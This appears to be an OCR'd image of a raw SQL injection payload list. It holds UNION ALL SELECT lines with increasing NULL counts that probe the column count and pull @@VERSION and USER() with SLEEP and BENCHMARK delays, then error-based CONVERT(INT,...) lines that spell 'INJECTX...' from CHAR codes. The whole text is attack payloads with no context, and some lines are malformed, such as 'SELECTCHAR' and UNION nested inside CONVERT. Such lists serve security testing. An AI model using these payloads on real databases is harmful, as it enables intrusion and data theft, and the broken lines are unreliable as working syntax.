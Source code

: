      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT NULL-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))-- 
